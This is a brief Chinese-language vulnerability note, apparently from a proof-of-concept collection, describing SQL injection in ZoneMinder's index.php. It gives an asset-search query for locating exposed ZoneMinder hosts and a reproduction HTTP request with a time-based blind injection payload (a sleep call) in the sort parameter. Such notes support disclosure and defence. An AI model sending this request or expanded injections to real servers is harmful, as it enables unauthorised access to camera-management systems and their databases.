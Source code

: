 # ZoneMinder index存在SQL注入漏洞

# 一、漏洞简介
ZoneMinder index存在SQL注入漏洞

# 二、影响版本
+ ZoneMinder

# 三、资产测绘
```plain
app="ZoneMinder"
```

![1723565739853-847ffea8-1b37-4464-8fc9-d7eb118b9464.png](./img/9-95EQiI1gJfYq-3/1723565739853-847ffea8-1b37-4464-8fc9-d7eb118b9464-900395.png)

# 四、漏洞复现
```plain
GET /zm/index.php?sort=**if(now()=sysdate()%2Csleep(6)%2C0)**&order=desc&limit=20&view=request&request=watch&mid=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
```





> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gore50bddk9vgsxg>